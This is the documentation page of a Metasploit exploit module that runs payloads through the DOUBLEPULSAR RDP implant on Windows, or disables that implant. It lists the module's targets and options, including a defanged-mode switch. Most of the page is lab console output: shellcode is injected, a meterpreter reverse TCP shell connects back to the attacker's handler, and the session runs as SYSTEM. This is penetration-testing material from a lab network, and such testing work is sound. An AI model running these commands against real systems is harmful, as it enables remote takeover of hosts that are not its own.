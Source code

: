 ## Introduction

This module executes a Metasploit payload against the Equation Group's
DOUBLEPULSAR implant for RDP.

While this module primarily performs code execution against the implant,
the `Neutralize implant` target allows you to disable the implant.

## Targets

```
Id  Name
--  ----
0   Execute payload
1   Neutralize implant
```

## Options

**DefangedMode**

Set this to `false` to disable defanged mode and enable module
functionality. Set this only if you're SURE you want to proceed.

**ProcessName**

Set this to the userland process you want to inject the payload into.
Defaults to `spoolsv.exe`.

## Usage

Pinging the implant:

```
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > check

[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 SP1 x64
[+] 192.168.56.115:3389 - The target is vulnerable.
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) >
```

Executing a payload:

```
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > set target Execute\ payload
target => Execute payload
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 SP1 x64
[*] 192.168.56.115:3389 - Generating kernel shellcode with windows/x64/meterpreter/reverse_tcp
[*] 192.168.56.115:3389 - Total shellcode length: 4096 bytes
[*] 192.168.56.115:3389 - Sending shellcode to DOUBLEPULSAR
[*] Sending stage (206403 bytes) to 192.168.56.115
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.115:49158) at 2019-11-25 18:10:21 -0600
[+] 192.168.56.115:3389 - Payload execution successful

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-S7TDBIENPVM
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

Neutralizing the implant:

```
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > set target Neutralize\ implant
target => Neutralize implant
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 SP1 x64
[*] 192.168.56.115:3389 - Neutralizing DOUBLEPULSAR
[+] 192.168.56.115:3389 - Implant neutralization successful
[*] Exploit completed, but no session was created.
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) >
```
